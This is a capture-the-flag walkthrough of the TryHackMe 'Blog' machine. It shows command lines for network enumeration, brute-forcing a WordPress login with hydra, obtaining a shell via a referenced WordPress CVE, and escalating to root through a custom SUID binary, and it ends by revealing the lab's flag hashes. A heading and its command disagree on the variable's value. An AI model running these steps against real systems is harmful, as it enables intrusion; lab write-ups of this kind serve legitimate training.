

# Blog
> Franco Contreras

### Enumeration

```bash
echo "10.10.80.125   blog.thm" >> /etc/hosts
export IP=10.10.80.125
nmap -A $IP -oN scans/nmap.log
gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt | tee scans/gobuster.log

```

What inmediately looks more interesting is **/wp-login.php**

[wpscan](https://github.com/wpscanteam/wpscan)
## Find wordpress users
```bash
wpscan --url $IP --enumerate u
```


Explore the source code<br>

 

Username **kwheel** was discovered by wpscan and visual inspection of the html code

## Try to crack the password
<details>
<summary>Tip</summary>
<p>
Use burpsuite to get the body of the post request necesary for the hydra syntax

 <br>


</details>

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
## Success!!

 <br>


## Alternative
```bash
python2.7 /opt/WPForce/wpforce.py -i /home/user/THM/Blog/users.txt -w /usr/share/wordlists/rockyou.txt -u "http://blog.thm"
```

## Enumerate SMB

```bash
export IP=10.10.202.171
nmap --script smb-enum-shares.nse -p445 $IP
smbclient //$IP/BillySMB
```

<details><summary>Tip</summary>
This is a dead end, tools like zbarimg binwalk exiftool and steghide would help
</details>


## Look for a exploit

[CVE 20198973](https://www.exploit-db.com/exploits/46662)

1 - Get in with metasploit<br>
2 - Get a shell<br>
3 - Stabilize the shell 


```
python -c 'import pty; pty.spawn("/bin/bash")'
```

4 - Find probable priv esc routes<br>

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```


## **/usr/sbin/checker** is not a normal binary and there is nohing in [gtfobins](https://gtfobins.github.io/) about it, explore it with [ltrace](https://en.wikipedia.org/wiki/Ltrace)


```bash
ltrace /usr/sbin/checker
```
## What if we create an enviroment variable called admin and give it the value 0 then run the binary

```bash
export admin=1
/usr/sbin/checker
```


<details><summary>root.txt</summary>
9a0b2b618bef9bfa7ac28c1353d9f318
</details>

```
find / -name '*root.txt' 2>/dev/null
```


<details><summary>user.txt</summary>
<p>
c8421899aae571f7af486492b71a8ab7
</p>
</details>

```
find / -name '*user.txt' 2>/dev/null
```
